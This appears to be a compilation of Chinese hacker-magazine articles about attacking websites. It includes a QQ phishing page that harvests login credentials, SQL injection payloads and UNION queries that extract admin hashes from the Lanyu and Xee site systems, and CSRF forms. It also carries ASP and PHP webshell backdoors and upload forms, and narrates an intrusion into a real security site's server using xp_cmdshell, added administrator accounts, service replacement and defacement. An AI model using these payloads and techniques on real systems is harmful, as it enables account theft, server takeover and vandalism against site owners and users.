alert("对不起,服务器人已经满了,请稍后再登陆")
</script>
```

```html
<meta http-equiv="Refresh" content="1; URL=http://qq.xxxx.com/indexbak.asp">
```

我来解释一下：qq=request("qq") 正好对应 index.asp 中的 QQ 号码；`<INPUT class=inp type=text size=20 name=QQ value="<%=QQ%>">`。mima=request("mima") 对应密码，`<INPUT class=inp name=mima type=password size=20 value="<%=PWD%>"><br>`。下面的

```javascript
<script language="javascript">
alert("对不起, 服务器人已经满了, 请稍后再登陆");
</script>
```

则是我伪造的虚假信息，当对方第一次挂机时，输入 QQ 和密码，然后点登录，就会提交到我的站里 http://www.ciker.org/qq/qqs.asp，然后弹出信息“对不起,服务器人已经满了,请稍后再登陆”，如图6。


图6

然后 `<meta http-equiv="Refresh" content="1; URL=http://qq.xxxx.com/indexbak.asp">` 在一秒内转到 http://qq.xxxx.com/indexbak.asp 这个网站的 indexbak.asp（是我备份他的 index.asp）进行正常登录，这时输入 QQ 和密码，登录后就会出现“成功发送离开消息”的提示了，如图7。


图7

这时候虽然 QQ 已经挂上了，但厄运也跟着降临了。或许此时你还在为 QQ 挂机成功而高兴呢，殊不知你的 QQ 号及密码明天就已经发到了我网站后台。现在我们登录后台看结果吧，图8是我刚才提交的结果，密码当然是乱写的了。数据库处理了，图9是我钓鱼的最后截图，收获不小吧！状态栏的那个 http://www.ciker.org/qq/sc.asp?id=3680 是删除 QQ 和密码记录的，“ID=3680”表示这是第3680个 QQ 了，大丰收呀！如果大家有兴趣测试的话，可以到我的小站上去，我改的程序已经传到上边了，http://www.ciker.org/qq/，不过千万不要输入真正的密码，小心被盗了，到时候千万别来找我呀！


我们来看 ad.htm 的代码，不难看出：

```html
<form align=center action=qq.asp method=post name=uform1>
```

```html
&nbsp;管理员<input name="na">&nbsp;<br>
&nbsp;密&nbsp;&nbsp;&nbsp;码<input type=password name="pwd">&nbsp;<br><br>
```

接着来看 qq.asp 的登录验证代码：

```asp
<%
if session("name")="" then
  na=request("na")
  pwd=request("pwd")
  set rs=server.createobject("adodb.recordset")
  sql="select * from admin where name='"&na&"' and pwd='"&pwd&"'"
  rs.open sql,conn,1,3
  if rs.eof then%>
    <script language=javascript>
      alert("管理员用户名或者密码错误")
      window.location="ad.htm"
    </script>
<% else session("name")=na
end if
end if
set rs=server.createobject("adodb.recordset")
sql="select * from qq order by time"
rs.open sql,conn,1,3
%>
```

懂 ASP 的朋友应该看出来了吧，`sql="select * from admin where name='"&na&"' and pwd='"&pwd&"'"`，用经典的 `'or'='or'` 就可以进去了。本文并不是告诉大家怎样去盗 QQ，只是起了个抛砖引玉的作用，但并不一定非用此方法去盗 Q，具体怎么利用就看你自己了。

### 再次入侵 20NT 网络安全小组

今天在 20NT 的群里看到了好友紫侠客，就顺便去他的 BLOG 看了看！呵呵！程序好像是浪心做的，挺不错的哦！完全忠实了 20NT 那种“简约而不简单”的风格，大家都是玩网络安全的，至于安全性应该是没有什么问题的！

简单地注入一下，无功而返，旁注更是不可能了，上次已经吃过亏了，现在更换了新的空间。那我就和紫侠客开个玩笑吧！于是我在他的 BLOG 上注册了一个名为“浪心”的用户，给他留言（图1）。再去浪心那里看看吧！我直接在地址栏里把地址改为浪心的 BLOG（http://www.20nt.net/zixiake），按下回车后我真的不敢相信自己的眼睛，在用户名那里竟然出现了浪心的名字（图2），其实这套程序是不允许用户注册和管理员相同 ID 的！留言试试，完全可以的！用户名还是“浪心”呢（图3）！难道是 SESSION 或者 COOKIES 有问题？

于是我冒出了一个想法，如果我要是把地址直接改为论坛的地址会不会出现这样的情况呢？怀着好奇的心情，我在地址栏中直接把地址改为 20NT 论坛的地址（http://www.20nt.net/neibubbs），按下回车后，结果和我想象的一样，我在论坛的用户名变成了“浪心”（图4）。看看有没有什么权限，完全可以编辑和删除浪心所发的帖子（图5），按照这个思路，我们完全可以删除论坛所有用户的帖子了。我试了试看能不能更改他的密码，结果失败了，我也就没再继续研究下去。至于这个 BUG 我已经通知了浪心，发稿时 20NT 已经解决了这个问题。


# 一个人的战争


图2


图4


图5


图3

页的源文件，看看他的 SESSION 是如何验证的！一般都是类似于 `if <%Session("admin") = bin%>` 这样的语句，我们就可以利用 NBSI 的上传功能，把 `<%session("admin") = bin%>` 这条语句写到一个 ASP 文件里……利用管理后台的上传功能，上传一个扩展名改为 JPG 的 ASP 木马，最后用 NBSI 来执行 Rename 命令把扩展名改成 ASP 就行了！

我们换个角度来思考这个问题，平时大家玩注入时，得到了 SA 帐号，上传文件就成了问题，大家可能会说用批处理或者 get webshell……那我们为什么不用他管理后台的上传功能呢？我们可以用 NBSI 来看网页的源文件……


Miyabi 浅蓝的辐射鱼

在黑 X 档案上登了很多关于跨站的文章了，很多人一直都问，跨站偷到 cookie 登录的问题，这次我就详细地分析一下……cookie 里确实包含着用户名或密码散列一些东西，但是一般来说，我们的利用方式只有如后台进行构造一个用户的 cookie 登录前台（许多程序的后台都是 session 验证的）……

是不可以的，你可以得到的只是客户端与 www.huji.net 这个站交流的 cookie……在登录 www.hackerxfiles.net 的情况下用 www.huji.net 的伪造表单对 www.hackerxfiles.net 的页面提交数据（比如发帖什么的）……比如 GET 链接：`http://www.hackerxfiles.net/admin.php?name=mayabi&password=12345`……

`hackerxfiles.net/admin.php?name=mayabi&password=12345' width=0 height=0></iframe>`，只要管理员进来看一眼就会不知情地添加一个管理员……如果大家明白了，那么，可以告诉大家，上面只是以 GET 方式提交数据，那么 POST 呢？

```html
<script language="javascript">
this.document.forms[0].submit();
</script>
```

这么一句代码可以让我们的表单载入后直接提交。所以像上面的脚本假设是 POST 的，我们可以直接伪造一个 htm 文件在自己空间上，代码为（这里我假设写的是 miyabi.htm）：

```html
<form method="post" action="http://www.hackerxfiles.net/admin.php">
  <input name="user" value="miyabi">
  <input name="password" value="12345">
  <input type="submit" value="确定">
</form>
```

下接306页

# 过滤不严的整站系统

寂寞的刺猬

如果把 `Request.Form("id")` 或是 `Request.QueryString("id")` 未加任何过滤，直接放入 SQL 语句中运行，你会作何感想？SQL 注入！对，在程序中有这样一个未过滤的提交数据，那就有可能泄露数据库中的一些重要数据。说得严重点，整个网站可能就要出现问题了。

如图2，得出管理员名 `admin` 及密码 `7a57a5a743894a0e`，密码虽然是用 MD5 加密的，但如果管理员设置得较弱，使用 MD5 爆破工具，还是能爆破出来的。

### 1. 蓝雨整站 5.2 版本

以“清新蓝 森林绿 橘子黄”做关键字在百度中搜索，找到相关网页约几千个，虽然其中有一些不是蓝雨整站系统，但也可以看出，蓝雨整站 Version 5.2 版本使用范围还是很广的。研究了一番 5.2 版本中的 ASP 文件源码，大致有 Art.asp、Book.asp、Dj.asp、Down.asp、Js.asp、Pic.asp、Showart.asp、Showdown.asp、Shownews.asp、Showpic.asp、View.asp、Web.asp 这十二个文件中存在过滤不严的漏洞，尤其以 View.asp 中甚多，有 News_id、Dj_id、Soft_id、Js_id、Pic_id、Art_id 六个参数未经过滤而直接放入 SQL 中使用。看下面一句源码：

```asp
sql="select * from news where news_id="&request.querystring("news_id")
set rs=server.createobject("adodb.recordset")
rs.open (sql,conn,1,1)
```

这是 Shownews.asp（阅读新闻）中的一句，其它 11 个 ASP 文件中也大致如此，因为 `request.querystring("news_id")` 没有过滤，用户就可以赋予 News_id 任意值，从而获取数据库中的内容。为了验证漏洞的存在，在本机搭建了一套蓝雨 5.2 版本的整站系统……只要将参数改为一段 Union 语句即可实现注入。

图1

图2

得到管理员密码，就可以顺理成章地登录后台了。蓝雨 5.2 版在后台对上传文件没有任何限制，可以上传 ASP 木马，提升自己的管理权限，再利用一些别的漏洞从而控制整个服务器，这些不在本次讨论范围，略过……

### 2. 蓝雨整站 6.0 版本

在 6.0 版与 5.2 版之间还有一个 5.5 版本，因为 6.0 是蓝雨 2005-06-22 日发布的版本，所以跳过 5.5 版直接测试最新版。先从前面说的那 12 个文件入手，发现蓝雨已对部分提交的参数进行了过滤，使用的过滤代码是：

```asp
if not isinteger(request.querystring("news_id")) then
  founderr=true
  Response.Write "<script language=javascript>alert('非法的新闻id参数');</script>"
end if
```

如果所提交的 News_id 值不是数值，那么就提示“非法的 id 参数”，这一句的确很管用。6.0 版中的提交参数大部分用这句做了过滤，因而屏蔽了大部分的非法提交值。但把那 12 个文件看过后，发现在 View.asp 中的提交参数风采依旧，上面所说的那六个参数一个也没有过滤……

# 一个人的战争

接下来就是在本地 6.0 环境中测试是否能显示出数据库中的数据。通过查看源码得知，View.asp 是查看评论页，因为是新的程序，还没有内容，就进后台随便添加了一条新闻。再回到前台，点击“新时动态”中的新闻，在打开的“浏览新闻”页的最下方有一块是“发表评论”，点击评论栏右侧的“查看全部评论”。这样，就打开了仍存在过滤不严的 View.asp 页（其他各个版块的查看评论打开方式也是这样的），和 5.2 版一样，将 news_id 的值写为：`news_id=1 union select 1,2,3,4,5,6,7,8,9,10 from admin`，回车后发现没有显示？

怎么回事？难道 View.asp 中过滤了 News_id 的值？仔仔细细又看一遍，没有过滤！那是怎么回事，打开数据库，看了一下 News 表中字段数，晕！原来 6.0 版本中的有些数据表中的字段数发生了变化，这个 News 表在 6.0 中是 9 个字段，难怪刚才没显示（注：在使用 Union 语句时，要先查看前一个 Select 所查询字段的字段数，保持前后表中字段的一致性）。将后面 10 及逗号去掉，回车，在页面中显示出 3、9 两个数字，将 3 替换为 `admin_name`，9 替换为 `admin_password`，再次回车，得到了用户名及密码，如图3。

图3

老天！这是什么用户名及密码啊，`43894a0e21232f297a57a5a743894a0e4a801fc3`，数了一下，40 位，不会是显示错了吧，去数据库中看了一下，果真就是这两个值。蓝雨的加密真是厉害！这样的用户名及密码就是得到了，也不好破解啊！顺便再说一下蓝雨系统各个版本中的用户名及密码的安全程度：蓝雨 5.2 版时用户名未加密，密码 16 位 MD5 加密；5.5 版用户名及密码 16 位 MD5 加密；6.0 版用户名及密码 40 位 MD5 加密。可以看出，蓝雨在一步步地加强安全措施。

对于 6.0 来讲，就算得到了管理员名称及密码，在后台也不能直接上传 ASP 木马了，在上传文件类型中做了限制，我试了一下，不好突破！可能是我的水平还太烂！这个也不在本次讨论范围，略过……

前面说到蓝雨 6.0 版本对参数提交值过滤是否密而一疏，不可能单单一个 View.asp 中存有过滤不严的参数吧，不知道别的 ASP 文件中是否还存在过滤不严的参数。先喝杯茶，静下心来，把 6.0 版中的 ASP 文件仔仔细细地看了一遍，这一看不要紧，又找出几个来。

- 1. 除了上面说到的 View.asp 外，还有 Book.asp 编辑留言分类中的 `Request.QueryString("id")` 未过滤，构造如下注语句：`book.asp?action=Edit&id=1 union select 1,2,3,4,5,6,7,8,9,10,admin_name,12,13,admin_password,15 from admin`。回车后，在“来客留言内容”中显示的是用户名的 MD5 值，在“回复内容”中显示的是密码的 MD5 值。
- 2. 再就是 6.0 版本中多了一个 Review.asp 文件，这个文件中的 `Request.QueryString("soft_id")` 未经任何过滤就放到了 SQL 语句中，利用方式与前面一致，Union 语句即可。
- 3. 接下来是 Down.asp 中的 `Request.QueryString("class_id")`，本以为这个参数也能执行 Union 语句，但测试后发现其后续 SQL 使用方式不同，需要结合后续条件进行利用。

这一个值提交给两个 SQL 中，从开始的这样一段代码：

```asp
elseif class_id<>"" and keyword="" then
  sql="SELECT soft_id,soft_name,soft_decount,
  soft_t_count,soft_demo,soft_mode,soft_desc,jsbest,
  soft_size,soft_comment,review,reviewcount FROM soft
  where soft_classid="&class_id&" order by soft_id desc"
```

用 Class_id 参数作为条件查询显示 12 个字段，程序再向下运行时，Class_id 参数又传递给了这一句：

```asp
if request.querystring("class_id")<>"" then
  sql="select class_name from d_class where
  class_id="&request.querystring("class_id")
```

这一句是用 Class_id 查询出一个字段，很明显可以看出这两句 SQL 所显示的字段是不同时的。第一个 SQL 显示 12 个字段，而第二个只显示 1 个字段，所以，不管构造什么样的 Union 语句，都无法满足两者的要求，唯一可行的方法就是采用 `and 1=(select ... from admin)` 这样的语句来猜测字符。不过用户名及密码加在一起足足有 80 位，所以使用这个方法要做好充分的思想准备哦！

- 4. `Request("select")`，这样一句提交参数，你说有没有漏洞？我就很不明白，这样的一句从 5.2 版本中就存在了，到 6.0 版时扩大到 Art.asp、Book.asp、Dj.asp、Down.asp、Js.asp 及 Pic.asp 六个文件中（Down.asp 中的是 `Request("colname")`），竟然没有一个地方过滤。这是搜索版块中用到的一个参数，不是由用户提交的，但只要构造出合适的 Union 语句放在此处拦截中，就能查询出想要的内容。

事先我们在“网页特效”中加了一个特效，就改这个为例子。第一步，在“特效查找”中输入任意关键字，启动 WinSock Expert v0.6 软件进行抓包，选择监听 IE 中的蓝雨设计—网页特效。切换到网页特效页，点搜索，这时，再看 WinSock Expert 软件已经抓到搜索提交的数据了，如图4，提交的数据包是：`select=js_name&keyword=aaa&search=%CB%D1%CB%F7`。

图4

第二步，再来看一下 SQL 是如何利用 `request("select")` 的，语句如下：

```asp
elseif request("keyword")<>"" then
  sql="select js_id,js_name,js_count,js_date,js_desc,
  review,reviewcount from js where "&request("select")&
  " like '%"&request("keyword")&"%' order by js_id DESC"
```

意思是：如果 Keyword 的值不为空，那么就在 `Request("select")` 所提交的字段名中查询包含 Keyword 值的数据。在第一步抓包中得到 Select 的值是 `js_name`（其它 5 个 ASP 中的 Select 或 Colname 值分别是 Art_title、Name、Dj_name、Soft_name 和 Pic_name），提交的 Keyword 值为 aaa，因为用到的是 like 条件，`js_name` 和 aaa 两者之间是不能隔开的，但两者之外就留了一个可利用的空间了。不过 6.0 版中已把 Keyword 的值进行了过滤，所以，Keyword 的值中是不能加入构造的字符，现在唯一可以利用的就是在 Js_name 的前面加入构造的字符。如果用 `select=(40=(select len(admin_name) from admin)) and js_name&keyword=aaa` 这样的语句来猜数据当然是可以的，但这种效率太慢，还是使用 union 语句，构造好的语句如下：

```text
select=(jscat_id=1) union select 1,2,3,4,5,6,7 from admin union select jsid,js_name,js_count,js_date,js_desc,review,reviewcount from v_js where js_name&keyword=111
```

简单说一下，最前面的 `(jscat_id=1)` 是让 Union 之前的 select 语句成立，两个 union 之间的 select 语句用来显示 admin 表中的内容，而后面的 select 语句是为了配合 like 查询及 order by js_id。将上面的语句复制到 js.asp 后，回车，如图5。显示 2、3、4 字段，将其中的两个字段替换为 `admin_name` 和 `admin_password` 即可显示出相应的数据了。

图5

- 5. Opensoft.asp 和 Relink.asp 中也有未过滤的提交参数，但这两个文件都有地址验证，禁止从站点外部提交数据，所以对两个文件中未过滤的参数没有利用成功。但在 Relink.asp 中却发现了另一种过滤不严的漏洞，也可以说是 Link.asp 过滤不严的漏洞。打开 Link.asp（友情链接）页面，在右下方是提交友情链接的地方，随便填了一些数据提交，用 WinSock Expert 抓包后得知，这些数据提交给了 Relink.asp……如果 6.0 版的数据库后缀名改为 ASP，便可利用这个地方写入一小型 ASP 木马，如图6。

图6

```asp
<%execute request("1")%>
```

把最小的 ASP 后门 `<%execute request("1")%>` 填入地址栏中，这个地方没有限制长度，然后点提交，弹出提示窗口点确定，再提示“建设，请等待进度”，即可完成利用。在本地构造一个提交表单 HTM 文件，其中 Action 的内容指向 ASP 格式的数据库文件。

```html
<form action="http://127.0.0.1/ly6/mdb/xfj126-net.asp" method="post">
<textarea name="p" cols="120" rows="10" width="45">set iP=server.createObject("Adodb.Stream")
iP.Open
iP.Type=2
iP.CharSet="gb2312"
iP.writetext request("@")
iP.SaveToFile server.mappath("up.asp"),2
iP.Close
set iP=nothing
response.redirect "up.asp"
</textarea>
<input type="submit" value="提交">
</form>
```

运行 HTM 文件，在其中输入一个小型的 ASP 后门源码，点提交。稍等一下，这个 HTM 文件变成了那个 ASP 后门文件，如图7。利用这个后门，可以再写入一些更强大的 ASP 后门。

图7

至此，这几天所研究的在蓝雨整站中存在过滤不严的参数都已交代完了，在蓝雨官方站点同样存在这些未过滤的参数，我已写信通知管理员了，希望蓝雨对提交数据加强过滤。回过头来看一下，蓝雨 6.0 还是挺不错的，安全措施做得相当不错了：用户名及密码是 40 位 MD5 值，即使得到了也不一定能登录；后台中上传文件类型做了限制；在 ASP 语句中还加了容错语句，很难爆出数据库来。

## 二、写E意（Xee）全站程序

本文文章已写完了，但在以蓝雨 6.0 的关键字“蓝 绿 黄”在网上搜索时，却搜到了一部分另类整站程序的网站……程序名称 Powered By Xee？原来是写E意全站程序。写E意全站程序与蓝雨整站程序两者的数据库竟然是一样的，连其中的 ASP 文件也大致相同，过滤不严的参数也一样；在蓝雨 5.2 版中适用的 Union 语句在写E意中同样适用，很轻松地就可以得到用户名及密码了。目前，写E意全站程序有 1.0 和 1.1 两个版本……于是我又发现，一个没有过滤的参数，同样也可以让你的网站崩溃，所以在这里要提示那些程序建站的站长们，要及时更新网站程序，及时修补网站中出现的漏洞，这样才能保障网站的持久性！

# 一个人的战争

# 黑客防线的陷阱路

黑客防线，顾名思义，黑客的防线。那好，今天我们就来看看这个防线到底有多坚固。俗话说得好：“是骡子是马，拉出来溜溜。”如果连自己的安全都搞不好，还有什么资格来称为黑客的防线呢？

黑防的网站主要由两部分组成，即新闻系统和论坛。新闻系统被改造得看不出是什么系统，打开一个文章链接，提交变量引出，返回“……就这样在暗香和现实的边缘沉沦——BY要要饭的”。很明显，臭要饭的和黑客防线的关系不一般，他帮忙检测了脚本安全！因为要饭的比较牛，这个新闻系统应该不存在什么问题。再看论坛，是动网 7.0sp2 的，这个论坛一些常见的漏洞都被修补了，最近动网又出了不少新漏洞，但利用起来要有版主或前台管理员权限，我在论坛什么也不是，这条路估计也没什么希望。

早就听说黑防使用的是自己的服务器，但这并不表明服务器上就存放了一个网站，也就是只绑定一个域名。我把旁注工具搬出来查询，结果发现上面有四个域名。再逐个检测这几个网站，发现安全性都比较差，其中有一个特别严重。这个网站是一个新闻系统，存在注入漏洞，就选它了。可惜在用 ubbi 注入的时候猜不出表名。虽然此时我可以根据网站的一些特征到网上去搜索，找出这是什么系统，搞清楚数据库结构，但是我比较懒，找到它的后台，就是 `http://xxx.com/admin/login.asp` 了。凭经验就知道这个登录的地方存在漏洞。我直接来个帐号：`'or'='or'`，密码：`'or'='or'`，果然直接进了后台。接着找到备份数据库的地方，上传木马图片，备份数据库，如图1。好几个目录都没有写权限，好不容易找了目录可写可执行，就这样轻松得到 webshell。

是 Win2000 操作系统 + sp4，什么盘都能进入，可以执行命令。先不管这些，把所有的数据库及一些好玩的有用的程序下载下来。黑客防线的网站就在 `D:\wwwroot\web` 目录下面，如图2，没有写权限。再 `net start` 看一下关键服务，开了 3389 终端服务、mssql、ftp（不过不是 serv-u），如图3a。再仔细看下，没有什么杀毒软件，也没什么防火墙，不支持 php。我尝试连接 ftp 和 3389 发现不能连接。以上就是黑防服务器的大致环境了，接下来我的目标是提升权限。

可能有人会说使用 asp.dll 来提升 asp 木马的权限，实际上这种方法很多人研究过，这种方法只适合得到系统权限后再提升 asp 木马的权限。我的 asp 木马是以 iis 来宾账号 guest 权限运行的，没有执行 adsutil.vbs 的权限。也有人会说在 `c:\Documents and Settings\All Users\「开始」菜单\程序\启动` 目录下写入 bat、vbs 等木马，可这个目录我们默认只有读权限，没有写权限。

甚至有人说在某个盘的根目录写 autorun.inf 文件，等待管理员打开这个盘的时候运行我们的木马。关于这种方法我可是一次也没有成功过，只有在特定的环境下才能成功的。那怎么提升权限呢？看一下 `C:\winnt\system32` 目录可以写，于是想到了最后的也是唯一的方法——替换服务。

我请好朋友 kyo 帮忙一起搞，kyo 二话没说就上去了。kyo 说只要能让服务器重启他就能得到系统权限。大家都知道替换服务得重启才有效。可能许多人都正憋气闷这一步，卡上碰到吃力，连 ddos 这些方法都想到了。实际上大多数情况下我们可以用一种很简单的方法达到目的。还记得那个开 3389 的 3389.exe 么？它有个参数，0 表示重启，1 表示不重启。把这个 3389.exe 传到 `C:\winnt\system32\inetsrv\data\` 目录，这个目录一般是 everyone 完全控制的。

我就在 webshell 的 cmd 下执行 `c:\winnt\system32\inetsrv\data\3389.exe 0`，机器马上重启了，网站出现了 DNS 错误，打不开了。过了两分钟，网站又能打开了。这个小工具就有这个好处，执行不需要很高的权限，用来重启机器效果特别好。

kyo 把他专用的反向连接后门替换了一个系统服务对应的程序，然后用上面的方法重启。可惜后门没有连接成功。关于替换服务，实际上是运用了 Windows 的一个特点：对于正在运行的程序，我们不可以将它删除，也不能覆盖，但是可以改名。比如系统里面有个服务对应的是 `C:\winnt\system32\1.exe`，我们可以把它重命名为 2.exe，再把我们的后门改为 1.exe 放在 `C:\winnt\system32\` 目录……

# 一个人的战争

图4

……了所有的密码账号，如图4。至于 MSSQL，我找了半天才发现只有黑防的论坛用的是 MSSQL 数据库。我看了下连接文件 `conn.asp`，`connStr="FILE NAME=E:\wwwroot\date\hkbbs\hkdh0616.udl"`，把那个 UDL 文件下载后双击打开，看到了数据库链接地址、用户名，连接密码是用星号显示的。下载一个星号密码查看器，就看到了明文密码（不是 sa 权限），如图5。我就在 webshell 的数据库操作那里，把密码账号什么的都填上，直接查数据库的 admin 表就看到了所有的管理员账号密码，有好几个呢，如图6。

图5

……录下面。这样只要我们让电脑重启了，系统就会自动运行我们的 `1.exe`，也就是我们的木马了。还有，我们用 ASP 木马的时候要注意，海阳顶端木马 2005 版和 2006 版是不一样的，2006 版会直接把 `1.exe` 改名为 `2.exe`，但是 2005 版改名为 `2.exe` 之后，原来的 `1.exe` 还会存在，二者之间有明显的区别。替换服务应该找那种不是很重要而且启动方式为自动的服务，不能把系统关键服务替换了，否则可能导致意想不到的后果。kyo 失败后，我不服气，先把我一键安装的 radmin 传上去，替换了一个服务对应的程序，重启之后看到 admin 的 2046 端口开放了，但是仍然连接不上。后来我又把一个反向连接的、用 80 端口的木马 flux 传上去替换服务，结果还是没有连接成功。这几次大哥上线了，我们俩也没什么独特的办法，lcx 把他的 hackdf 上传去替换了服务……

……密码。可是因为黑防的人好久没有登录后台了，我查了半天也只是查到一些垃圾信息。后来我到一个 QQ 群潜水，一个网名叫“地主”的朋友告诉我，其实他早就得到了 webshell，只是没有系统权限。但是他还通过内网 ARP 嗅探的办法得到了黑防的 FTP 账号密码。这令我吃惊不小。大家可能都看过 xiaolu 很早就写的一篇文章《黑客防线——来自主机外部的危险》。这篇文章讲的主要就是 ARP 嗅探，本来我相信黑防已经有了防护措施，没想到他仍然得手了。

图6

……防火墙禁止连接外部所有端口，而只允许外部访问它的 80 端口。看来得先突破防火墙，实际上也不难。我可以把防火墙服务对应的可执行文件替换成“纯”就行了，或者写个 VBS，这个 VBS 把 `iis_xxx` 这个账号加到管理员组。我可以把这个 VBS 做成“自解压文件，扩展名就是 exe 了”，然后通过替换服务的方式来运行这个 VBS 文件添加账号。这样 webshell 的权限就大了，就可以为所欲为了。

```vb
Dim wsh
Set wsh=CreateObject("WScript.Shell")
wsh.run "net localgroup administrators iis_xxx /add",0
```

注意想好了，感觉搞定黑防的服务器只不过是时间的问题了。第一天，我早早地爬上网，马上打开黑防的网站，没想到居然打不开。我又试了很多次，都是一样。后来我马上去问 kyo，kyo 说他把防火墙服务给替换了，重启后就这样了。看样子对方的主机没有重启，而是关机了。这个意外结果是我没有想到的，现在只能等他们的电脑重新开机了。

又过了好几天，我上网了，心想如果还打不开的话，就放他们一马，不过这次没有让我失望，正常打开了。可是我们上传的 webshell 却被删除了，连我们开始入手的垃圾网站也被补了不少漏洞（好在注入漏洞依然存在）。真是命不该绝呀，就在最后快要成功的时候功亏一篑。

上面不是提到了 MSSQL 么？其实入侵的第一天我就进行了探测。我把他文章系统的数据库 down 下来后，打开数据库就看到……

得到了 FTP 密码，可是因为防火墙的原因在外部肯定登录不上，不过在内网里面应该可以登录成功的。许多天后，也就是国庆节前的某一天吧，我又到网吧上网。习惯性地到各大网站转了一遍之后，又开始检测黑防的安全。我再一次打开了那个刚开始被我入侵的那个垃圾网站，却发现它依然有一大堆的漏洞，不知道是什么原因，不是修补过了吗？既然这样，我就先得到一个 webshell 再说。在经过一番痛苦的折腾后，我顺利地得到了 webshell，黑防的电脑上居然有了一个比较厉害的杀毒软件。我把各种 ASP 木马传上去都被杀了，又把一句话 ASP 木马传上去，也被查杀了，如图7。我只好把大小写转换，改 `<%execute request("langzi")%>` 为 `<%eXeCuTe request("langzi")%>`，居然不被杀。我接着找大马，找了几个都不怎么理想。最后把海阳顶端木马做成 CS 模式，总算换上了一个功能强大的木马。通过海阳 2006 木马，发现黑防已经重新安装系统了，这次换成了 Windows 2003，而且又有了以下特点：

- 1. 目录设置比上次更严格，D 盘不可浏览，网站放在 `E:\wwwroot\web` 下，进入 `E:\wwwroot\` 失败，切换到 `E:\wwwroot\web` 成功，但仍不可写。
- 2. 安装了杀毒软件，在网吧里也没怎么细看，估计是诺顿，因为我的 radmin 都被它杀了。
- 3. cmd 命令不能使用，wscript 也用不了，连 cmd 也传不上去。
- 4. 防火墙设置依然很 BT，还有 Windows 自带防火墙，ipsec 服务开着。

而且也没有外网 IP 地址，就算了，给它的网站提个醒就 OK 了。在 webshell 的数据库操作里把账号、密码、数据库名、地址都填上，再 `exec master.dbo xp_cmdshell 'net localgroup administrators iis_xxx /add >E:\wwwroot\xxx\manage\1.txt'`，这样做是为了把 IIS 来宾账号提升权限。随后又执行 `cacls` 相关命令，将 C、D、E 盘设置为 everyone 完全控制。之后进入 `E:\wwwroot\web`，删除 `index.htm` 失败，改为重命名并上传首页，发现黑防首页已被替换，如图9。

接着用 `exec master.dbo xp_cmdshell 'netstat -an >E:\wwwroot\xxx\manage\1.txt'` 查看，发现 3389 端口与一个 IP 建立连接，判断为对方通过 3389 维护服务器。至于后来……本文不再赘述。整个入侵过程说明黑防服务器安全不到位，若换更恶意者后果更严重。在攻防对抗中应提高自身水平、堵住漏洞。

比起上次来难度增加不少，而且 Windows 2003 本来就比 Windows 2000 安全。我冷静下来继续刺探，竟在黑防论坛 `conn.asp` 里看到连接账号是 `sa`，开始还以为看错了。

```text
Dim SqlDataBaseName,SqlPassWord,SqlUserName,SqlLocalName
SqlDataBaseName="hacker_master"
SqlPassword="pass-word"
SqlUsername="sa"
SqlLocalName="127.0.0.1"
ConnStr="Provider=SQLOLEDB;User ID=" & SqlUsername & ...
```

有了 sa，就好办多了。本来决定要进入对方主机里搞定防火墙，再配上免杀反弹木马。可是我的免杀木马在宿舍电脑里。本文没有用到多少技术，更多是利用目标弱点。旁注在当时是一种流行且有效的攻击手段，只有把服务器安全做好才能有效防止旁注。写本文目的在于交流，欢迎在论坛继续讨论。

经常入侵的朋友都知道，ASP 程序是十分不安全的，DVBBS 就是最明显的代表了。如今是人人见到 DVBBS 都不敢再染指了。可是 PHP 程序又意味着安全吗？前段时间，PhpWind 2.0 论坛刚刚爆出权限提升漏洞，不少人由此得到 webshell、获得网鸽，网站管理员可是哭天喊地呀。如今又轮到 PhpwindBlog 再次出现新的危机——“随意更改管理员密码漏洞”，下面大家就跟我来一次漏洞体验之旅吧。

## 一、修改管理员密码

还是先说说这类论坛的关键字吧：“PHPWind v3.0.0”。我们只需要在百度中搜索 PHPWind v3.0.0，就可以找到许多这套程序的 BLOG 了（建议各位测试一下就好了，手下留情哟）。这里随便找了一个 BLOG 来进行漏洞测试，首先当然是看看其程序版本，不对症下药，能治好病吗，如图1。

哈哈，对了，就是这个。先不说那么多，拿出漏洞测试程序。这里有两个利用程序，一个是玄猫写的，一个是安静写的。我们先来看玄猫工具：到目标 blog 注册一个用户，并选择“Cookie 有效期：一年”，再登录，如图2。

运行玄猫的漏洞检测工具，把目标 blog 地址写上、把最终要修改的管理员密码写上，勾选相关选项后点击“开始测试”，几秒后会提示修改成功，并在“程序状态”窗口显示管理员用户名和密码（图3）。随后可直接用该账号登录，能看到比普通用户多了“系统设置”（图4），说明已是管理员身份。

再看安静的利用程序：方法相似，但自带浏览器。填写 blog 地址后点击“注册用户”，在返回信息中会显示注册页，再直接注册（图5）。登录后选择“查看管理员名”，可得到管理员用户名（图6）。然后填写管理员账号和自设密码，点击“更改管理员密码”即可完成修改，还可通过“登录后台”直接打开后台登录页。

## 二、后台取 shell

当然了，进入后台后就少不了拿个 webshell 了。在 PHP 后台获得 shell 的方法很多，这里说最常用的“网站风格设置取 shell 法”。登录后台，进入网站风格管理栏，编辑网站风格，把以下代码插入最顶部，如图7：

```html
<style type="text/css">
</style>
```

```php
EOT;
...
<2copy($FILES[MyFile][tmp_name],$FILES[MyFile][name]);?>
...
<?php
print <<<EOT
...
```

在本地把以下代码保存为 html 文件：

```html
<form ENCTYPE="multipart/form-data" ACTION="http://目标服务器/index.php" METHOD="POST">
<input NAME="MyFile" TYPE="file">
<input VALUE="提交" TYPE="submit">
</form>
```

然后在浏览器中打开此 html 文件，从本地选择一匹 PHP 木马提交上传上去。我直接上传的是 phpspy ver2006 木马，上传成功，如图8。

来说是这样了，有熟悉 Linux 的朋友不妨尝试一下更深入的入侵。

## 事后记——简单分析配置

使用别人写出来的黑客工具当然方便，又容易上手，可是菜鸟终归要成长，总不至于一辈子都依靠别人的工具吧……

再回到漏洞利用程序，选择“更改密码”，此时抓包工具开始抓 GET 数据，如图10。

得到的提交语句是：`.../blog/user_index.php?...` 现在应该看明白了吧，直接在 blog 的后面加上这句，就可以手工提交修改管理员的密码了……

（文章中涉及到的工具之类的 PhpwindBlog 漏洞检测工具、安静的 PHPWindBlog 漏洞利用工具、phpspy ver2006、Winsock Expert 已收录于光盘中）

# Dameware 在“肉鸡”在后

# 漏洞介绍

DameWare 是菜鸟们非常喜爱的远程控制软件之一……早在 2004 年第 1 期的《黑客 X 档案》中，就曾经介绍过 Dameware 的远程溢出……

由于一般情况下 Dameware 被安装为服务，所以溢出后得到的 shell 会是个 system 权限……这个漏洞影响 4.9 及以下版本，使用 Dameware 远程维护的朋友可要小心了。

# 缓冲区溢出漏洞

